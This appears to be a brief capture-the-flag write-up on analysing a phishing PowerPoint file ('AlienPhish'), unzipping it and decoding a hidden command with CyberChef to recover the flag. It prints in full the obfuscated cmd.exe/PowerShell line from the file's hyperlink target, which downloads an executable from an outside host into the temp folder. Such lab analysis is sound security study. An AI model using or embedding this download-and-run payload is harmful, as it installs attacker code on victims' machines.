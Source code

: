 # AlienPhish

## Finding what to look for:
The first thing that comes to mind then when you saw the .pptx format is that its basically a zip file with bunch of stuff in there 

We can unzip it. with that done now i had much more files to work with.

Most of them were common files so looked around and i found lot of urls looking through wiki i found its usage after that it was simple i found something interesting use of target attribute:

![](https://i.imgur.com/gxYXYBn.png)


```xml=
cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

## Decoding 

looking through that cmd that reverse exe stood out like sore thumb so after opening cyberchef using reverse recipe and using magic/base64(on side note base64 didnt work quite right but after trying magic it gave me right flag you have to play around with alphabets )

![](https://i.imgur.com/19IiiPw.png)

## Resources 

[.pptx format information](https://en.wikipedia.org/wiki/Office_Open_XML_file_formats)
[Cyberchef](https://gchq.github.io/CyberChef/)
